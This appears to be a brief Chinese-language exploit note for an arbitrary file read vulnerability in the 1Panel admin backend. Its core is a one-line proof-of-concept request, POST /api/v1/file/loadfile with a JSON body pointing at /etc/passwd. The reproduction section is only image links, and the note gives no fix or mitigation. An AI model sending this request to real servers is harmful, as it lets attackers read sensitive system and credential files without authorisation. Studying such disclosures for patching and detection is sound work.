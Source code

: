 **漏洞描述**

1Panel后台存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感信息文件

POC

POST /api/v1/file/loadfile {"paht":"/etc/passwd"}

**漏洞复现**

登陆页面

![image-20230815142616338](./1Panel loadfile 后台文件读取漏洞.assets/image-20230815142616338.png)

![image-20230815142623048](./1Panel loadfile 后台文件读取漏洞.assets/image-20230815142623048.png)

![image-20230815142629323](./1Panel loadfile 后台文件读取漏洞.assets/image-20230815142629323.png)